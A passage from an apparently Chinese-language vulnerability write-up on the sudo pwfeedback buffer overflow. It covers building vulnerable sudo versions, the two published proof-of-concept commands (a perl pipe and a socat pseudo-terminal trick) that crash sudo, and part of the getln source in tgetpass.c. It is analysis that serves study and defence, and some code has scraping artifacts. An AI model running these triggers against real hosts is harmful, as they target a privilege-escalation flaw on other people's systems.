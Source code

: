 ```
wget https://www.sudo.ws/dist/sudo-1.8.25.tar.gz
```

tar 解包之后进入源码目录按照默认选项编译安装即可

```
./configure ;make -j16 ; make install
```

在测试过程中，系统自带的sudo是 `1.8.21p1` 版本， 安装位置在 `/usr/bin/sudo`<br>
自己编译的版本安装位置在 `/usr/local/bin/sudo`

[![](https://p2.ssl.qhimg.com/t013e911c5c4372ac4d.jpg)](https://p2.ssl.qhimg.com/t013e911c5c4372ac4d.jpg)

### <a class="reference-link" name="%E4%BB%8Epoc%E5%AE%9A%E4%BD%8D%E6%BC%8F%E6%B4%9E%E7%82%B9"></a>从poc定位漏洞点

官方给出了两个 poc, `poc1`适用 `sudo 1.8.25p1` 以下的版本, `poc2` 则适用`sudo 1.8.26 - 1.8..30` , 下面我们将从漏洞触发定位到漏洞代码，并分析漏洞的成因<br>`poc1`

```
perl -e 'print(("A" x 100 . "x`{`00`}`") x 50)' | sudo -S id
 Password: Segmentation fault
```

`poc2`

```
$ socat pty,link=/tmp/pty,waitslave exec:"python -c 'print(("A"*100+chr(0x15))*50)'" &amp;
$ sudo -S id &lt; /tmp/pty
```

<a class="reference-link" name="poc1%20%E5%88%86%E6%9E%90"></a>**poc1 分析**

先看 poc1, `sudo -S` 表示从标准输入读取密码，密码这里传入的是50个 `"AAAAA....x00"`, 然后直接段错误<br>
为了方便定位漏洞，我们可以用 `asan` 重新编译一下程序, 配置的时候加上`--enabble-asan`选项即可

```
make clean ; ./configure --enable-asan ; make -j16 ; make install
```

运行 poc 之后可以看到下面的输出

[![](https://p4.ssl.qhimg.com/t017e2cca969bc12628.jpg)](https://p4.ssl.qhimg.com/t017e2cca969bc12628.jpg)

从错误输出可以看出，最后的漏洞触发点是在`tgetpass.c`的 `getln`函数上，对应`345`行。 我们继续看看代码，这里对一些关系不大的代码做了删减。

```
static char *
getln(int fd, char *buf, size_t bufsiz, int feedback)
`{`
    size_t left = bufsiz; //256
    ssize_t nr = -1;
    char *cp = buf;
    char c = '';

    while (--left) `{`
        nr = read(fd, &amp;c, 1);//读取密码
        if (nr != 1 || c == 'n' || c == 'r')
            break;
        if (feedback) `{`
        // pwfeedback 开启时
            if (c == sudo_term_kill) `{`
            while (cp &gt; buf) `{`
                if (write(fd, "b b", 3) == -1)
                break;
                --cp;
            `}`
            left = bufsiz;
```